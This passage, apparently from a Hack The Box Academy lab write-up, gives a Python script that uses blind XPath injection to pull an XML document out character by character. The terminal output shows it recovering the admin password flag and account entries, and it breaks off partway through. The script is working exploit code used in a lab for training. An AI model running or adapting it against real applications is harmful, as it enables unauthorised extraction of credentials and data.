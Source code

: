 ```python
	data = ""
	for i in range(l):
		for c in string.printable:
			payload = f"substring({subquery},{i+1},1)='{c}'"
			if inject(payload):
				data += c
				break
	return data

def exfiltrate_no_children(subquery, mix_child=20):
	for i in range(mix_child):
		payload = f"count({subquery})={i}"
		if inject(payload):
			return i
	print(f"Unable to determine number of children of {subquery}")
	sys.exit(0)

def exfiltrate_schema(base_node, depth=0):
	name = exfiltrate_data(f'name({base_node})')
	n = exfiltrate_no_children(base_node + '/*')
	
	print(' ' * depth + f'<{name}>')

	for i in range(n):
		exfiltrate_schema(base_node + f'/*[{i+1}]', depth=depth+1)

	if n == 0:
		data = exfiltrate_data(base_node)
		print(' ' * (depth+1) + data)

	print(' ' * depth + f'</{name}>')

if __name__ == '__main__':
	print('Exfiltrating XML document:')
	exfiltrate_schema('/*[1]')
```

After running the script, students will attain the flag `HTB{bcc3b42debd91b5612aa80b1742f3aef}` as the `password` of the username `admin` account:

Code: shell

```shell
python3 poc.py
```

```
┌─[htb-ac-413848@htb-tmp0m2a18j]─[~]
└──╼ $python3 poc.py

Exfiltrating XML document:
<accounts>
 <acc>
  <username>
   admin
  </username>
  <password>
   HTB{bcc3b42debd91b5612aa80b1742f3aef}
  </password>
 </acc>
 <acc>
  <username>
   htb-stdnt
  </username>
  <password>
```